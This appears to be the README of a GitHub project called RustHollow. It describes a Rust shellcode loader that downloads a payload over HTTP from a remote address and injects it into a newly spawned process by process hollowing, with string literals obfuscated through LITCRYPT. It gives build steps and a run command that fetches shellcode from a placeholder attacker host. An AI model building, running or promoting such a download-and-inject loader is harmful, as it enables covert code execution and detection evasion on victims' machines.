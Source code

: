 # RustHollow

This tool will use HTTP to download a shellcode from a remote address and inject it in a newly spawned process by using the process hollowing technique.
Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	cargo build
	rust_hollow.exe http://yourip/yourshellcode.bin